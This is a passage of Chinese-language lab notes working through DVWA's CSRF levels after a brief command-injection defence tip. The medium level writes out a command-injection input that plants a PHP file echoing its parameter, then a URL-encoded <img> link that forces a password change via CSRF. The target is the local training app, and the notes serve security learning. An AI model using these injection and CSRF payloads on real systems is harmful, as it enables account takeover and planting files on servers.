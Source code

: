 ​		对于指令注入漏洞，比较好的防御方式是尽可能别用命令执行函数，对于输入的参数要做好黑名单过滤或者白名单验证。

## 跨站请求伪造 CSRF

> `CSRF` 全称 `Cross Site Request Forgery，跨站点请求伪造`，攻击者通过跨站请求，以合法的用户身份进行非法操作，如转账交易、发表评论等。其核心是利用了浏览器 `Cookie` 或服务器的 `Session` 策略，盗取用户的身份信息

### low

抓包查看

![image-20221125130859800](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071439809.png)

此时在另一个窗口打开这个链接，是可以打开该页面的。但是如果换一个浏览器就不可以

![image-20221125131025881](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071439216.png)

因此该攻击的难点在于诱骗受害者点击具有转账或者修改功能的链接

### medium

查看源码

![image-20221125132857052](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071440398.png)

因此我们需要从本站诱导用户点击带有`HTTP_REFERER` 的链接

这可以结合XSS来实现，先在本站下新建一个具有XSS漏洞的文件，这可以通过命令注入实现，以提供基础条件

`127.0.0.1|echo "<?php echo $_GET['x'];" > /var/www/html/vulnerabilities/csrf/xss.php`

这个页面会显示接收的参数，但是如果在里面写入代码，就会被解析

例如`http://127.0.0.1/vulnerabilities/csrf/xss.php?x=%3Cimg%20src=%221%22%3E` 

![image-20221125142110309](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/1431/202301071440889.png)

![image-20221125142406766](D:\OneDrive - mail.ynu.edu.cn\note\typoranote\DVWA.assets\image-20221125142406766.png) 

查看请求记录，可以看到src=1被请求了，并且相应的信息也都是携带的

那么，我们就可以将其变为修改密码的请求链接，即

```http
http://127.0.0.1/vulnerabilities/csrf/xss.php?x=<img src="http://127.0.0.1/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change">

还需要编码
http%3A%2F%2F127.0.0.1%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword%26password_conf%3Dpassword%26Change%3DChange

即最终的链接为
http://127.0.0.1/vulnerabilities/csrf/xss.php?x=<img src="http%3A%2F%2F127.0.0.1%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword%26password_conf%3Dpassword%26Change%3DChange">
```
